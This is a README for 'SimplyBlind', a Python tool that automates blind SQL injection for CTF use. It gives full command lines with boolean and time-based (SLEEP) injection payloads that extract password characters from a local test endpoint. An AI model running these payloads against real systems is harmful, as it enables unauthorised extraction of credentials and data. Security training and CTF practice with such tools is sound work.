




# SimplyBlind  
A script to extracted characters by exploiting blind SQL injection.

Designed for Capture The Flags (CTF) as i felt it was too troublesome to meanual extract each character. This is not ment for illegal use. please do not run this script on site you do not have permisssions on.

## Quick Start Quide:  
There are 2 "attack" modes:
- Brute: Brute force every character in the table
- Quick: Quick attack narrowes down possible CHAR before checking it. making it faster than brute

Modes are set with `-m <mode>`:  
- sc   Status Code 
- reg   regex  
- redir   rediract  
- to | nto  timeout | not_timeout  

The mode identifies if the injection returned a TRUE or FALSE.

## Examples:
Reponse Status code
``` shell
python simplyBlind.py quick -p "1' AND BINARY SUBSTR(password, \!I, 1) \!S '\!C' #" -c '{"PHPSESSID":"etc7stehjcs7c4kqaa6p6kit03", "security":"low"}' --get http://localhost/vulnerabilities/sqli_blind/
```

``` shell
python simplyBlind.py quick -m sc -s 200 -p "1' AND BINARY SUBSTR(password, \!I, 1) \!S '\!C' #" -c '{"PHPSESSID":"etc7stehjcs7c4kqaa6p6kit03", "security":"low"}' --get http://localhost/vulnerabilities/sqli_blind/
```
  

Regex:
``` shell
python simplyBlind.py quick --m reg --regex "User ID exists in the database" -p "2' AND BINARY SUBSTR(password, \!I, 1) \!S '\!C' #" -c '{"PHPSESSID":"etc7stehjcs7c4kqaa6p6kit03", "security":"low"}' --get http://localhost/vulnerabilities/sqli_blind/
```
  

Timeout:
```shell
python simplyBlind.py quick -m to --timeout 0.5 -p "10' AND IF(BINARY SUBSTR(password, \!I, 1) \!S '\!C', SLEEP(0.7), FALSE) #" -c '{"PHPSESSID":"etc7stehjcs7c4kqaa6p6kit03", "security":"low"}' --get http://localhost/vulnerabilities/sqli_blind/
```



### Common Peremeter:
`-p <payload>`   takes in a string to set custom payload. the payload takes in key that will be replaces with the appropiate value. keys, !I = incrementer, !S = symbol, !C = Char. Incrementers will run from 1 to the end of character in database or till its the same value as --limit. Symbol is used to narrow down and determin if the target character is the character we want. Character will be the character we are trying to match with.  

`-b <body>`   Takes in a string that sets the custom body. Body takes the key !P that will be replaced with the payload.  

`--get`   Set method to GET. default is POST.

`-h`   For help menu
